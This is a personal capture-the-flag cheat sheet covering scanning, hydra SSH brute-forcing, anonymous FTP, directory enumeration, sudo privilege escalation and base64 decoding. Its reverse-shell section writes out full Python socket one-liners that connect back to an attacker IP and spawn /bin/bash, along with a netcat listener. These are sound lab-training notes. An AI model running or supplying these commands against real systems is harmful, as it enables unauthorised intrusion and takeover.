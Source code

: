 # CTF-Notes

# How to connect to the vpn

**Use the command:**```openvpn [YOUR .ovpn FILE]```

# How to check if we are properly connected?

**Use the command:**```ping [IP]```

# Get my IP

We can do ```ip addr show tun0``` or ```ifconfig```

# Check if input allows python/python3

We can do ```python -c "print('Hello')"``` or ```python3 -c "print('Hello')"```

# Make a python script executable from command line

 1. Add ```#!/usr/bin/env python``` at the beginning of the script
 2. Make the file executable ```chmod +x myfile.py```
 3. Execute the script ```./myfile.py```

# If commands like "cat" are not allowed

We can use ```grep . file``` or ```while read line; do echo $line; done < file```

# PORTS

* **Check for open ports:** ```nmap [IP]``` [Guide](https://www.stationx.net/nmap-cheat-sheet/)

* **Types of ports and how to access them:** <br>
  * **Port 80:** Usually http
  * **Port 22:** Usually ssh
    * You can use the command ```ssh```
      * ```ssh [USERNAME]@[IP]```
      * It will ask for a password:
        * We can try and crack the password like: ```hydra -l [USERNAME | WORDLIST] -P [PASSWORD | WORDLIST] [IP] ssh```
  * **Port 21:** Usually ftp
    * You can use the command ```ftp```
      * ```ftp [IP]```
        * It will ask for logging information but you can sometimes use: ```anonymous``` without password
        * You can retrieve files inside ftp using  ```get```: ```get flag.txt```
        
# URL Directory Enumeration

* You can run the following command to enumerate the directories of a given URL:
  * ```gobuster dir -u "[URL | IP]" -w [Wordlist] ``` [Guide](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  
# Reverse Shell:

* If a website allows input or file upload without sanitation it will be possible to upload a reverse shell in order to gain access to the system.
  * **Upload the shell:**
    * File upload shell: <a href="php-reverse-shell.php">PHP shell</a> <- We must modify the IP(Our IP) and the PORT(9999)
    * Reverse shell in input: [More one liner shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
      * If python is allowed: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
      * If python3 is allowed: ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
  * **Access the shell:**
    * ```nc -lnvp [PORT]``` [Guide](https://linuxize.com/post/netcat-nc-command-with-examples/)
  * **Stabilize the shell:**
    1. Inside the shell ```python -c 'import pty; pty.spawn(\"/bin/bash\")'```
    2. Ctrl+Z
    3. ```stty raw -echo```
    4. ```fg```
    5. ```export TERM=xterm```
                    
# Privilage Escalation

* If you are inside of the vulnerable system you can try to escalate your user privilege as root like:
  * Use ```sudo -l``` to see what types of privileges the user has.
    * If you see ```(ALL : ALL) ALL```, just call ```sudo bash``` and you will become root.
    * Other privileges: [Check for exploits](https://gtfobins.github.io/)
      * tar: ```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
      
# Find all files in system by name.

We can do ```find / -name [FILENAME]``` or ```find /* | grep [FILENAME]```

# Criptography

* **Base 64:** If we see a combination of letters and numbers, it may be Base 64 encoding, the best way to find out if it contains at least one '=' at the end.
  * How to decode:
    * In linux: ```echo [BASE64 STRING] | base64 -d``` 
    * Online: [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true))
